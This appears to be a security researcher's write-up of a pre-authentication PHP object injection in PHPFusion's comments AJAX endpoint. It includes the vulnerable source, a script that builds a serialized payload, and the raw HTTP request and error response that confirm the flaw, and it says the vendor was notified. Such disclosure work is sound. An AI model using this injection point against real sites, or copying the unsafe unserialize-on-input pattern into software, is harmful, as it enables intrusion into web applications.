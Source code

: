 ```yaml
---
permalink: /c110
---
```

{% raw %}
# C110: PHPFusion v9.03.60, PHP Object Injection (pre-auth)

After I found some vulnerability, I figured it was time to look for something more fun to exploit. And that's when the code on this page made me tick.

File: <span style="color:red">\<ROOT\>/includes/classes/PHPFusion/Feedback/Comments.ajax.php</span>
```php

...

require_once __DIR__.'/../../../../maincore.php';
require_once THEME."theme.php";
require_once THEMES."templates/render_functions.php";
require_once INCLUDES."comments_include.php";

if (isset($_GET['action']) && iMEMBER) {

    ...

} else {
    $ajax_respond = \defender::unserialize($_POST['comment_options']);
    $ajax_respond['comment_custom_script'] = TRUE;
    echo PHPFusion\Feedback\Comments::getInstance($ajax_respond, $ajax_respond['comment_key'])->showComments();
}
```

So according to line`$ajax_respond = \defender::unserialize($_POST['comment_options']);` there is a kind of unserialize performed on an input that we control and this as a unauthenticated user. Let's take a closer look at what this function does.

File: <span style="color:red">\<ROOT\>/includes/defender.inc</span>
```php
/**
* Read serialized array
*
* @param $string - serialized string
*
* @return array|mixed
*/
public static function unserialize( $string ) {

    $return_default = [];
    if ( !empty( $string ) ) {
        $array = unserialize( base64_decode( $string ) );
        if ( !empty( $array ) ) {
            return $array;
        }
    }

    return $return_default;
}
```

Okay, that's what I thought we were dealing with a PHP Object Injection. Just to confirm that it is exploitable without authentication, we just send a request with a crafted payload.

Create the following file:

File: <span style="color:red">gen.php</span>
```php
<?php

$array = base64_encode(serialize('test'));
var_dump($array);

?>
```

Which once executed gives:

```
▶ php gen.php
string(16) "czo0OiJ0ZXN0Ijs="
```

Now all we have to do is send the request.

Request:
```
POST /projects/php-fusion/includes/classes/PHPFusion/Feedback/Comments.ajax.php HTTP/1.1
Host: 127.0.0.1
Content-Type: application/x-www-form-urlencoded
Connection: close
Content-Length: 32

comment_options=czo0OiJ0ZXN0Ijs=
```

Response:
```
HTTP/1.1 200 OK
Date: Thu, 21 May 2020 17:17:35 GMT
Server: Apache/2.4.25 (Debian)
X-Powered-By: PHP-Fusion 9.03.50
Set-Cookie: fusion1LSF9_session=5ee172f399ee5a3a651548b152168581; expires=Sat, 23-May-2020 17:17:35 GMT; Max-Age=172800; path=/
Set-Cookie: fusion1LSF9_visited=yes; expires=Fri, 21-May-2021 17:17:35 GMT; Max-Age=31536000; path=/
Set-Cookie: fusion1LSF9_lastvisit=1590077855; expires=Thu, 21-May-2020 18:17:35 GMT; Max-Age=3600; path=/projects/php-fusion/; domain=127.0.0.1; HttpOnly
Vary: Accept-Encoding
Cache-Control: max-age=1, private, must-revalidate
Content-Length: 2161
Connection: close
Content-Type: text/html; charset=UTF-8

<br />
<font size='1'><table class='xdebug-error xe-uncaught-exception' dir='ltr' border='1' cellspacing='0' cellpadding='1'>
<tr><th align='left' bgcolor='#f57900' colspan="5"><span style='background-color: #cc0000; color: #fce94f; font-size: x-large;'>( ! )</span> Fatal error: Uncaught TypeError: Argument 1 passed to PHPFusion\Feedback\Comments::getInstance() must be of the type array, string given, called in /var/www/html/projects/php-fusion/includes/classes/PHPFusion/Feedback/Comments.ajax.php on line 74 and defined in /var/www/html/projects/php-fusion/includes/classes/PHPFusion/Feedback/Comments.inc on line <i>127</i></th></tr>
<tr><th align='left' bgcolor='#f57900' colspan="5"><span style='background-color: #cc0000; color: #fce94f; font-size: x-large;'>( ! )</span> TypeError: Argument 1 passed to PHPFusion\Feedback\Comments::getInstance() must be of the type array, string given, called in /var/www/html/projects/php-fusion/includes/classes/PHPFusion/Feedback/Comments.ajax.php on line 74 in /var/www/html/projects/php-fusion/includes/classes/PHPFusion/Feedback/Comments.inc on line <i>127</i></th></tr>
<tr><th align='left' bgcolor='#e9b96e' colspan='5'>Call Stack</th></tr>
<tr><th align='center' bgcolor='#eeeeec'>#</th><th align='left' bgcolor='#eeeeec'>Time</th><th align='left' bgcolor='#eeeeec'>Memory</th><th align='left' bgcolor='#eeeeec'>Function</th><th align='left' bgcolor='#eeeeec'>Location</th></tr>
<tr><td bgcolor='#eeeeec' align='center'>1</td><td bgcolor='#eeeeec' align='center'>0.0010</td><td bgcolor='#eeeeec' align='right'>409384</td><td bgcolor='#eeeeec'>{main}(  )</td><td title='/var/www/html/projects/php-fusion/includes/classes/PHPFusion/Feedback/Comments.ajax.php' bgcolor='#eeeeec'>.../Comments.ajax.php<b>:</b>0</td></tr>
<tr><td bgcolor='#eeeeec' align='center'>2</td><td bgcolor='#eeeeec' align='center'>0.0635</td><td bgcolor='#eeeeec' align='right'>4237072</td><td bgcolor='#eeeeec'>PHPFusion\Feedback\Comments::getInstance(  )</td><td title='/var/www/html/projects/php-fusion/includes/classes/PHPFusion/Feedback/Comments.ajax.php' bgcolor='#eeeeec'>.../Comments.ajax.php<b>:</b>74</td></tr>
</table></font>
```

The vulnerability is confirmed.

The author of the application has been informed of the vulnerability.

In case I find a way to go further with this vulnerability I will post a new chapter.
{% endraw %}